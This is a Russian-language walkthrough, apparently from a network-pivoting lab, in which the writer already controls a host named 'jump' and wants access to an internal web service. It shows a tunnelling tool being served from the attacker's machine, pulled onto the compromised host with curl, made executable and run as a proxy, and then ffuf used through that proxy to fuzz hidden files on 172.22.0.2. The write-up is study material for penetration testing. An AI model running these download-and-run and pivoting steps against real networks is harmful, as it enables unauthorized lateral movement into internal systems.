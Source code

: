 Вы получили доступ к системе ОС Linux, и ваша задача — **изучить отдельные сервисы внутренней сети** или **получить к ней доступ со своей рабочей машины.** 

> **Конкретнее:**
> 
> - Вы получили доступ на машину: `jump`
> - Ваша задача — получить удобный доступ к сервису: `target:80`

**Ход действий**
IP-адрес принадлежит локальной сети, попробуем найти в ней другие хосты, скрытые в локальной сети:

`> curl 172.22.0.2`
Наша задача – **найти файл на web-сервере, который скрыт в локальной сети,** используем для этого утилиту ffuf, но для этого необходимо стабильное соединение с целевым сервером через промежуточный хост.

_Используем прокси из проекта Go simple tunnel:_ [https://github.com/ginuerzh/gost](https://github.com/ginuerzh/gost)

1. Скачиваем бинарный файл из релизов, выбираем сборку для Linux с amd64, например:

[.../releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz](https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz)

Подготовим веб-сервер для передачи этого файла на атакуемую машину:

|   |
|---|
|`$ cd /tmp`<br><br>`$ mkdir http; cd http`<br><br>`$ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz`<br><br>`$ gunzip gost-linux-amd64-2.11.5.gz # распаковка архива с бинарником`<br><br>`$ mv gost-linux-amd64-2.11.5 gost`<br><br>`$ python3 -m http.server 3000`|

2. Определяем наш IP-адрес:
`$ ip a`
3. На уязвимой машине выполняем скачивание файла:

	`> curl <you server>/gost --output gost #` `<you server>` нужно заменить на адрес вашего сетевого интерфейса
	
	`> chmod +x gost #` выдача прав на исполнение
	
	`> ls -la`
	
	Запускаем gost в режиме прокси:
	
	`> ./gost -L=:<needed port>`
	
4. Настроим утилиту ffuf для использования прокси для обнаружения файлов на удаленном не взломанном веб-сервере 172.22.0.2 в локальной сети используя словарь fuzz.txt ([https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt](https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt)):

	```
	http_proxy=<my IP>:<needed port> ffuf -w dir.txt -u http://172.22.0.2/FUZZ -fc 403`
	```